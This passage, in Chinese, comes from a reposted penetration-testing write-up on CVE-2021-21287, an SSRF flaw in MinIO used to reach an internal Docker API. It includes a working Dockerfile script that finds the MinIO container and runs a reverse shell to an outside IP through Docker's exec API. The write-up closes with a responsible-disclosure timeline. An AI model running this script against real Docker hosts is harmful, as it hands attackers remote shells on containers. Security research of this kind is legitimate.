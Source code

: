 进行SSRF攻击，等待了一会儿，果然收到请求了：

![](https://shs3.b.qianxin.com/butian_public/f220a92871d26df5ecb82cd1dc64726b5.jpg)

完美，我们已经可以在目标集群容器里执行任意命令了。

0x05 拿下MinIO容器
--------------

此时离我们的目标，拿下MinIO，还差一点点，后面的攻击其实就比较简单了。

因为现在可以执行任意命令，我们就不会再受到SSRF漏洞的限制，可以直接反弹一个shell，或者可以直接发送任意数据包到Docker API，来访问容器。经过一顿测试，我发现MinIO虽然是运行的一个service，但实际上就只有一个容器。

所以我编写了一个自动化攻击MinIO容器的脚本，并将其放在了Dockerfile中，让其在Build的时候进行攻击，利用docker exec在MinIO的容器里执行反弹shell的命令。这个Dockerfile如下：

```php

RUN apk add curl bash jq

RUN set -ex && \
    { \
        echo '#!/bin/bash'; \
        echo 'set -ex'; \
        echo 'target="http://192.168.227.131:2375"'; \
        echo 'jsons=$(curl -s -XGET "${target}/containers/json" | jq -r ".[] | @base64")'; \
        echo 'for item in ${jsons[@]}; do'; \
        echo '    name=$(echo $item | base64 -d | jq -r ".Image")'; \
        echo '    if [[ "$name" == *"minio/minio"* ]]; then'; \
        echo '        id=$(echo $item | base64 -d | jq -r ".Id")'; \
        echo '        break'; \
        echo '    fi'; \
        echo 'done'; \
        echo 'execid=$(curl -s -X POST "${target}/containers/${id}/exec" -H "Content-Type: application/json" --data-binary "{\"Cmd\": [\"bash\", \"-c\", \"bash -i >& /dev/tcp/192.168.1.142/4444 0>&1\"]}" | jq -r ".Id")'; \
        echo 'curl -s -X POST "${target}/exec/${execid}/start" -H "Content-Type: application/json" --data-binary "{}"'; \
    } | bash
```

这个脚本所干的事情比较简单，一个是遍历了所有容器，如果发现其镜像的名字中包含minio/minio，则认为这个容器就是MinIO所在的容器。拿到这个容器的Id，用exec的API，在其中执行反弹shell的命令。

最后成功拿到MinIO容器的shell：

当然，我们也可以通过Docker API来获取集群权限，这不在本文的介绍范围内了。

0x06 总结
-------

本次测试开始于一个MinIO开放的9000端口，通过代码审计，挖掘到了MinIO的一个SSRF漏洞，又利用这个漏洞攻击内网的Docker API，最终拿到了MinIO的权限。

本文所涉及的漏洞已经提交给MinIO官方并修复，以下是时间线：

Jan 23, 2021, 9:11 PM - 漏洞提交

Jan 24, 2021, 3:06 AM - 漏洞确认

Jan 26, 2021, 2:15 AM - 修复已被合并进主线分支

Jan 30, 2021, 11:22 AM - 漏洞公告和新版本被发布

Feb 2, 2021 01:10 AM - 确认编号 - CVE-2021-21287

原文转载自phithon师傅博客，原文地址为：<https://www.leavesongs.com/PENETRATION/the-collision-of-containers-and-the-cloud-pentesting-a-MinIO.html>